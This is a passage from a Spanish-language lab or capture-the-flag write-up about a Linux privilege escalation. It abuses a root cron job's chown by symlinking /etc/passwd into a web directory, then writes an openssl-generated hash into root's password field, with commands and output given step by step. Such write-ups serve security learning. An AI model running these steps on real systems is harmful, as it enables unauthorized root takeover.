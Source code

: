 Vemos que el pspy nos muestra esto que llama la atencion `chown rocky:apache /home/rocky/public_html/back_en` y mas rutas

```shell
bash-4.4$ cd /home/rocky/public_html/
bash-4.4$ ls
back_en  index.php  php.js  style.css
bash-4.4$ ls -l
total 12
drwxrwxr-x. 2 rocky apache   44 May 29  2021 back_en
-rwxrwxr-x. 1 rocky apache 1814 May 29  2021 index.php
-rwxrwxr-x. 1 rocky apache 3699 May 29  2021 php.js
-rwxrwxr-x. 1 rocky apache 3118 May 29  2021 style.css
bash-4.4$ 
```

Podemos crear un enlace simbolico 

```shell
bash-4.4$ ln -s -f /etc/passwd passwd
bash-4.4$ ls -l
total 12
drwxrwxr-x. 2 rocky  apache   44 May 29  2021 back_en
-rwxrwxr-x. 1 rocky  apache 1814 May 29  2021 index.php
lrwxrwxrwx  1 apache apache   11 Feb 15 21:22 passwd -> /etc/passwd
-rwxrwxr-x. 1 rocky  apache 3699 May 29  2021 php.js
-rwxrwxr-x. 1 rocky  apache 3118 May 29  2021 style.css
```

Vamos a asignar una contraseña para la migracion yo voy a poner como contraseña `hola` puedes poner lo que quieras

```shell
bash-4.4$ openssl passwd
Password: 
Verifying - Password: 
g.bHmvuXV5hFI
```

Vamos a esperar para que cambie

```shell
bash-4.4$  watch -n 1 ls -l /etc/passwd
```

Despues de unos momentos cambia

```shell
-rwxrwxr-x. 1 rocky apache 1549 May 29  2021 /etc/passwd
```

Ahora vamos a modificar el `/etc/passwd` y donde esta la `x` vamos a poner la contraseña que asignamos para que no valla al shadow 

Basicamente donde esta la `x` hay que cambiala por lo que te dio al escribir la contraseña con openssl

```shell
root:g.bHmvuXV5hFI:0:0:root:/root:
```
